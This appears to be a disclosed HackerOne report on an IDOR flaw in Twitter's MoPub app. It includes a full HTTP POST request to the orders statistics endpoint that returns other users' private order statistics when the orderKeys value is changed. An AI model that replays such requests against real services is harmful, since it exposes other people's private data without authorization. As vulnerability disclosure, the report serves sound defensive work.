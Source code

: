 # IDOR and statistics leakage in Orders 

## Report Details
- **Report ID**: 544329
- **URL**: https://hackerone.com/reports/544329
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-04-20T18:33:14.854Z
- **Disclosed**: 2019-06-14T00:08:40.415Z

## Reporter
- **Username**: updatelap
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Description:** 
Twitter on its service "MoPub" statistics dedicated to the results of "Order", after the test shows that the endpoint "https://app.mopub.com/web-client/api/orders/stats/query" is infected with a "IDOR " bug

Which led to the leak of private statistics "Orders" by another users

## Steps To Reproduce:

  1. [Create account in https://app.mopub.com/ and login]
  1. [go to the link https://app.mopub.com/orders and create Order ]
  1. [using this POST Request you can disclose statistics another orders By changing the value of the parameter __orderKeys__ in body request]

```
POST /web-client/api/orders/stats/query HTTP/1.1
Host: app.mopub.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.mopub.com/orders
Content-Type: application/json
x-csrftoken: {TOKEN}
Content-Length: 98
Connection: close
Cookie: csrftoken={TOKEN}; sessionid={SID}; mp_mixpanel__c=1;


{"startTime":"2019-04-07","endTime":"2019-04-20","orderKeys":["43b29d60a9724fa9abbdc800044002d6"]}
```
{F472873}

## Impact

__leakage statistics__

## Attachments
- OrderDiscStat.png
